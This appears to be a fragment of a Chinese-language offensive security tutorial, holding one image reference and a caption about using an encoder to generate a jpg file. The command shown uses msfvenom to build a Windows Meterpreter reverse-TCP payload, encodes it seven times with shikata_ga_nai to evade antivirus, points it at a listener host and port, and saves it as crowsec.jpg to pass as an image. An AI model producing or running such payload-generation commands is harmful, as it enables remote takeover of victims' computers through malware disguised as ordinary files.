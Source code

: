 ![Alt text](image-3.png)

- 利用编码器生成jpg文件
```
msfvenom -p windows/meterpreter/reverse_tcp -e x64/shikata_ga_nai -i 7 -b '\x00' lhost=192.168.0.99 lport=5558 -f raw -o crowsec.jpg
```